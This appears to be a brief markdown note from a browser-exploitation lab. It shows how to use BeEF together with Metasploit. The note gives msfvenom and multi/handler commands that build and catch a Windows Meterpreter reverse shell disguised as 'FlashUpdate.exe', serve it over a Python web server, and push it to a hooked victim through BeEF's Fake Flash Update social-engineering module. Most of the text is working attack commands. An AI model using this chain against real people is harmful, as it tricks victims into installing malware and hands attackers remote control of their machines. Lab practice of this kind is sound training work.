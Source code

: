 # BeEF for browser exploitation notes

setup a msfvenom payload and host it with python webserver

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<port> -f exe -o /tmp/FlashUpdate.exe
python3 -m http.server 
```

start handler

```
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP>
exploit
```

## Starting Beef

```
beef
```

interacting with beef

- go to the http://10.10.75.1:3000/demos/thetofuartist/index.html page as the victim
- sign into admin panel on the linux machine running beef
- go to the victim host you see in the admin panel, and go to commands in the middle pane
![image](https://github.com/user-attachments/assets/2893465d-cef6-4a71-b113-af67ea5f1ace)
- now select the Social Engineering folder and select Fake Flash Update
![image](https://github.com/user-attachments/assets/1504671d-c3f4-41a3-b3f0-cb7d7ae1074d)
- Now update the Custom payload URI and the image
  ![image](https://github.com/user-attachments/assets/a22dfeae-21d9-4b92-a6e2-f56b0e3b6703)
- go back to victim and run the update
